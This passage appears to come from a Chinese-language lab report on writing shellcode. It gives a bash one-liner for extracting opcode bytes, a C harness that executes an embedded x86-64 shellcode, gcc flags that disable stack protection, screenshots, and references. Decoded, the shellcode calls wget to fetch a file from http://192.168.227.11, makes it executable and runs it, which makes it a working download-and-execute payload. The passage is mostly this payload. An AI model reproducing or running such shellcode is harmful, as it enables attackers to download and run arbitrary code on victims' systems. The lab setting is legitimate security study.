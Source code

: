 	 	#!/bin/bash
  		for i in $(objdump -d $1 |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

* C语言程序

    	#include<stdio.h>
		#include<string.h>
		unsigned char code[] = \
			"\x48\x31\xc0\x48\x83\xc0\x39\x0f\x05\x48\x31\xff\x4d\x31\xe4\x49\x89\xc4\x48\x39\xf8\x74\x6c\x4d\x31\xd2\x48\x31\xd2\x4c\x89\xd6\x4c\x89\xe7\x48\x31\xc0\xb0\x3d\x0f\x05\x48\x31\xd2\x66\xbe\xff\x01\x6a\x78\x48\x89\xe7\x48\x31\xc0\xb0\x5a\x0f\x05\x48\x31\xc0\x48\x31\xd2\x50\x50\xc7\x04\x24\x2f\x2f\x62\xc7\x44\x24\x04\x6e\x2f\x68\x48\x89\xe7\x50\x50\xc7\x04\x24\x70\x72\x69\x66\xc7\x44\x24\x03\x2e\xc6\x44\x24\x05\x68\x48\x89\xe6\x52\x56\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x41\x51\x5f\x6a\x03\x58\x0f\x05\x48\x31\xc0\x50\x50\x50\xc7\x04\x24\x2f\x75\x73\xc7\x44\x24\x04\x2f\x62\x6e\xc7\x44\x24\x08\x2f\x2f\x67\x66\xc7\x44\x24\x0c\x65\x48\x89\xe7\x50\x50\x50\x50\xc7\x04\x24\x68\x74\x74\xc7\x44\x24\x04\x3a\x2f\x31\xc7\x44\x24\x08\x39\x32\x31\xc7\x44\x24\x0c\x36\x38\x32\xc7\x44\x24\x10\x32\x37\x31\xc7\x44\x24\x14\x31\x2f\x72\xc7\x44\x24\x18\x69\x2e\x68\x48\x89\xe6\x48\x31\xd2\x50\x66\xc7\x04\x24\x2d\x4f\x48\x89\xe1\x50\x50\xc7\x04\x24\x70\x72\x69\x66\xc7\x44\x24\x03\x2e\xc6\x44\x24\x05\x68\x49\x89\xe7\x52\x41\x57\x51\x56\x57\x48\x89\xe6\xb0\x3b\x0f\x05";
			
	
		main()
		{
			printf("Shellcode Length:  %d\n", strlen(code));
			int (*ret)() = (int(*)())code;
			ret();
		}


* 编译

	gcc <进行编译连接的c文件> -o <输出文件名> -O0 -fno-stack-protector -z execstack
	
## 三、实验成果

* windows xp

[![](https://i.imgur.com/ECaJrkC.jpg)](./windows_xp.webm)

* linux x86

![](https://i.imgur.com/33F8uO8.jpg)

* linux x64

![](https://i.imgur.com/zuhpY87.jpg)

## 四、参考文献


* https://www.cnblogs.com/Tesi1a/p/7624052.html

* https://govolution.wordpress.com/2015/04/21/shifting-from-32bit-to-64bit-linux-shellcode/

* https://blog.csdn.net/qq_29343201/article/details/52209588

* https://govolution.wordpress.com/2014/02/02/writing-a-download-and-exec-shellcode/